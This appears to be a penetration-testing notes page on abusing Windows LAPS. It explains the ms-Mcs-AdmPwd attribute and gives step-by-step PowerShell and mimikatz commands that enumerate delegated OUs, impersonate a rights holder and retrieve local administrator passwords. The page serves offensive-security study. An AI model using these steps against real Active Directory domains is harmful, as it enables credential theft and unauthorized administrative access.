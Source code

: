 # Local Administrator Password Solution (LAPS)

### Resources

#### (1) Learning resources

1. **ms-Mcs-AdmPwd attribute**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/ad2ce8fa-42a0-4371-ad18-5d1d1c488b22" %}

2. **What is Windows LAPS?**

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview" %}

3. **Windows LAPS PowerShell cmdlets**

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-management-powershell" %}

4. **Additional resources**

{% embed url="https://adsecurity.org/?p=3164" %}

#### (2) Exploitation examples

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps" %}

{% embed url="https://github.com/passtheticket/Abusing_Laps_Toolkit" %}

PDF: [https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf?utm\_source=dlvr.it\&utm\_medium=twitter](https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf?utm_source=dlvr.it\&utm_medium=twitter)

### Basic concepts

What is the `ms-Mcs-AdmPwd` attribute?

...

What is the `admpwd.dll` file?

{% embed url="https://adsecurity.org/?p=3164" %}

The presence of this file will indicate that the **Group Policy Client Side Extension** (**CSE**) is configured on the computer, and that the LAPS client is installed on the machine. It is located in `C:\program files\LAPS\CSE`.

### AllExtendedRights

#### 1. What is the "All extended rights" attribute given to an AD organizational unit (OU) under the context of LAPS?

For a given OU with this attribute set, any extended right holders (groups, users, etc.) will be able to read the LAPS password for any machines under that particular OU. Since the LAPS password mostly involves the local administrator account, this means that the rights holder will be able to retrieve the password for the local administrator (stored in the `ms-Mcs-AdmPwd` attribute).

#### Exploitation steps

1. Query all the OUs that has the "**All extended rights**" attribute that deals with LAPS

{% embed url="https://learn.microsoft.com/en-us/powershell/module/laps/find-lapsadextendedrights?view=windowsserver2025-ps" %}

{% code overflow="wrap" %}
```powershell
PS> Find-LapsADExtendedRights -Identity *
Name                 DistinguishedName                    Status
----                  -----------------                   ------
Domain Controllers  OU=Domain Controllers,DC=xxxx         Delegated
<OU>                OU=<OU>,DC=xxxx                       Delegated
```
{% endcode %}

2. Retrieve the extended right holders for a particular OU

```powershell
PS> Find-LapsADExtendedRights -Identity <OU>
ObjectDN         ExtendedRightHolders
--------         -------------------
OU=<OU>,DC=xxxx  {xxxx\xxxx}
```

3. Retrieve the users in the group

Given that a particular group has extended rights, we can enumerate the users of that particular group:

```powershell
PS> net groups <GROUPNAME>
PS> Get-ADGroupMembers -Identity <GROUPNAME>
```

4. Retrieve the LAPS password

Given that we have compromised or impersonate a particular user of that group (found in the previous step), we can retrieve the LAPS password of a particular machine under the OU. This will provide us with the local administrator password for that machine.

First, we have to load the credentials for the user to impersonate using either a TGT (pass-the-ticket) or simply a username and password combination with the `runas.exe` utility:  &#x20;

```powershell
mimikatz # kerberos::ptt ...
PS> runas.exe /netonly ...
```

Next, we can retrieve the password:

```powershell
PS> Get-AdmPwdPassword -ComputerName <TARGET_COMPUTER>
```

...



